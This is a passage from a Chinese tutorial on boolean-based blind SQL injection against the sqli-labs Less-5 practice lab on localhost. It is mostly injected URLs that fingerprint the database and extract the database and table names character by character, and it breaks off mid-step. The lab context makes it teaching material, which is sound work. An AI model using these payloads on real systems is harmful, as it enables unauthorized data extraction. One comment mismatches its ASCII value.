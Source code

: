所以，我们构造判断语句，根据页面是否回显证实猜想。一般用到的函数ascii() 、substr() 、length()，exists()、concat()等。

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210316182126690.png)

1. 判断数据库类型

* MySQL数据库表     information_schema.tables
* access            msysobjects 
* SQLServer         sysobjects
用下的语句判断数据库。哪个页面正常显示，就属于哪个数据库

```
//判断是否是 Mysql数据库
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from information_schema.tables) --+
//判断是否是 access数据库
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from msysobjects) --+
//判断是否是 Sqlserver数据库
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from sysobjects) --+
```
![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210316174105779.png)

![](https://xxxiuron-picture.oss-cn-chengdu.aliyuncs.com/20210316174130279.png)

所以当前数据库为mysql数据库

2. 判断当前数据库名

```
1：判断当前数据库的长度，利用二分法
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>5 --+  //正常显示
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>10 --+  //不显示任何数据
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>7 --+  //正常显示
http://127.0.0.1/sqli/Less-5/?id=1' and length(database())>8 --+  //不显示任何数据
 
  大于7正常显示，大于8不显示，说明大于7而不大于8，所以可知当前数据库长度为8个字符
 
2：判断当前数据库的字符,和上面的方法一样，利用二分法依次判断
//判断数据库的第一个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),1,1))>115 --+ //100为ascii表中的十进制，对应字母s
//判断数据库的第二个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),2,1))>100 --+
//判断数据库的第三个字符
http://127.0.0.1/sqli/Less-5/?id=1' and ascii(substr(database(),3,1))>100 --+
...........
由此可以判断出当前数据库为 security
```

3. 判断当前库的表名

```
//猜测当前数据库中是否存在admin表
http://127.0.0.1/sqli/Less-5/?id=1' and exists(select*from admin) --+
1：判断当前数据库中表的个数
// 判断当前数据库中的表的个数是否大于5，用二分法依次判断，最后得知当前数据库表的个数为4
http://127.0.0.1/sqli/Less-5/?id=1' and (select count(table_name) from information_schema.tables where table_schema=database())>3 --+
 
2：判断每个表的长度
//判断第一个表的长度，用二分法依次判断，最后可知当前数据库中第一个表的长度为6
http://127.0.0.1/sqli/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 0,1))>6 --+
//判断第二个表的长度，用二分法依次判断，最后可知当前数据库中第二个表的长度为6
http://127.0.0.1/sqli/Less-5/?id=1' and length((select table_name from information_schema.tables where table_schema=database() limit 1,1))=6 --+
 
3：判断每个表的每个字符的ascii值
```
